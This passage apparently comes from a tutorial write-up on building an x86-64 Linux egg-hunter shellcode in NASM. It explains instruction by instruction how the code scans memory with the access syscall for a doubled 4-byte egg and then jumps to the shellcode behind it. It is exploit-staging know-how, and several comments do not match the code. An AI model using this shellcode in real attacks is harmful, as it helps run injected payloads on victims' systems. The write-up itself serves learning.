 ```nasm
	cmp al, 0xf2		; compare return value of accept with 0xf2 (low byte of EFAULT return value)
```

Then, if the `ZF` was set from `cmp` instruction, we jump to the `next_page` procedure in order to go to the next memory page.

```nasm
	jz next_page		; jump short to next_page if zero (ZF = 1)
``` 

If the `ZF` from before isn't set, it means we have a valid memory address. So we can compare the value pointing by `RDX` with the egg value at `EBX`. If they match, meaning that we found the egg for the first time, we continue through the code. Otherwise, we jump to the `next_address` procedure in order to search for the egg in the next memory address.

```nasm
	cmp [rdx], ebx		; if the egg in ebx doesn't match rdx content go to the next address
	jnz next_address	; jump short if not zero (ZF = 0)
```

If the `ZF` is set from before, meaning we have the egg for the first time, we can compare the value of the next address (`RDX + 0x4`) with the egg again to identify if we have 2 consecutive instances of the egg and we can execute the following shellcode. Otherwise, we jump to the `next_address` again.

```nasm
	cmp [rdx + 0x4], ebx	; if the egg in ebx doesn't match rdx+4 content go to the next address again
	jnz next_address		; jump short if not zero (ZF = 0)
```

Finally, at this point we have found 2 consecutive instances of the egg and we can jump at the shellcode in order to execute it.

```nasm
	jmp rdx			; egg is found, jump short at rdx (our shellcode)
```

The whole `Assembly` program is the following:

```nasm
global _start

section .text

_start:
	xor rbx, rbx
	mov ebx, 0x50905090	; move the 4 bytes egg in ebx

	xor rdi, rdi 		; clear rdi register
	xor rdx, rdx		; clear ecx register

next_page:
	or dx, 0xfff		; page alignment operation
				; default page size is 4096 bytes (next_page + next_address = 4096 => 4095 + 1 = 4096)

next_address:
	inc rdx			; increment edx by 1 to reach the page size of 4096
	
	lea rdi, [rdx + 0x4]	; rdi is set with the value of rdx plus 4, so 8 bytes are validated at once

	xor rax, rax		; clear rax register
	mov al, 0x15		; 15 is the hex value of the decimal 21 for access syscall

	syscall			; exec access syscall

```